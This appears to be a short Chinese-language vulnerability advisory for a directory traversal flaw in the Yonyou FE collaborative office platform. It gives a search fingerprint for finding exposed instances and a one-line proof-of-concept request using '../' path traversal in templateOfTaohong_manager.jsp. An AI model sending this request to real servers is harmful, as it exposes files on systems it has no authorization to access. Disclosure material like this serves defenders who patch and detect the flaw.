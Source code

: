 # 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

# 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

## 漏洞描述

用友 FE协作办公平台 templateOfTaohong_manager.jsp文件存在目录遍历漏洞，通过漏洞攻击者可以获取目录文件等信息，导致进一步攻击

## 漏洞影响

```
用友 FE协作办公平台
```

## 网络测绘

```
"FE协作"
```

## 漏洞复现

登录页面

![image-20220520141413849](/images/202205201414968.png)

验证POC

```
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![image-20220520141519859](/images/202205201415920.png)

